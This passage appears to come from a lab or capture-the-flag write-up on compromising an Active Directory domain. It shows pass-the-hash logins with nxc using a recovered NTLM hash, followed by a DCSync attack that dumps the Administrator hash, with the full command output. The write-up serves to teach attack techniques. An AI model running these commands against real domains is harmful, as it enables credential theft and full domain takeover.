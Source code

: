 ```
        credman :
        cloudap :
```

We can verify that these credentials are valid for the domain with `nxc`:

```
~$ nxc ldap dc01.antennae.rv -u 'kai.wen.goh' -H '56e7e432c955bfdbb8f57d1248417116'
LDAP        10.5.10.10      389    DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:antennae.rv) (signing:None) (channel binding:No TLS cert) 
LDAP        10.5.10.10      389    DC01             [+] antennae.rv\kai.wen.goh:56e7e432c955bfdbb8f57d1248417116 (Pwn3d!)
```

On `BloodHound`, we find that the `kai.wen.goh` user is a member of the `Domain Admins` group - which is a member of the `Administrators` group on `dc01.antennae.rv`.

![](./assets/img/rv-sept/bh6.png)

## DCSync Attack

The `Domain Admins` group has full administrative access to the entire domain, and this includes performing [Domain Replication](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/get-started/replication/
active-directory-replication-concepts) - this technique can be extended to replicate domain credentials, also known as a [DCSync](https://www.semperis.com/blog/dcsync-attack/) attack. We can perform this attack using `nxc` to obtain the `NTLM` hash of the `Administrator` user:

```
~$ nxc smb dc01.antennae.rv -u 'kai.wen.goh' -H '56e7e432c955bfdbb8f57d1248417116' --ntds --user 'Administrator'
SMB         10.5.10.10      445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:antennae.rv) (signing:True) (SMBv1:False) (Null Auth:True)
SMB         10.5.10.10      445    DC01             [+] antennae.rv\kai.wen.goh:56e7e432c955bfdbb8f57d1248417116 (Pwn3d!)
SMB         10.5.10.10      445    DC01             [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         10.5.10.10      445    DC01             Administrator:500:aad3b435b51404eeaad3b435b51404ee:4b1b716bb4ad29c4efaf682577361070:::
```
